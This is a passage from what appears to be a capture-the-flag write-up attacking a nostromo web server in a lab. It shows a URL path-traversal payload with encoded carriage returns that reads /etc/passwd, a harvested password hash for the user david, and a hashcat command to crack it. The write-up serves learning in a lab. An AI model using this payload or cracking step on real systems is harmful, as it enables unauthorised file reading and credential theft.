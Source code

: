 > Then I need to use this kind of payload to find which file I can check.
> With previous nostromo configuration file, I think ~david will point to /home/david/public_www
> but I have tried to check the last directory from public_www to find ssh key or flag. 
> none of them are work.
> Using the following payload, I can read /etc/passwd

```
http://10.129.230.15/~david/.%0D./.%0D./.%0D./.%0D./etc/passwd
```

![](./IMG/39.png)


> So far, I haven't idea how to know which file I can access in public_www
> But with the previous enumeration by linpeas
> I got this credential 

```
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

![](./IMG/17.png)

> Using the following to crack it 

```
hashcat -m 500 david.hash /usr/share/wordlists/rockyou.txt
```
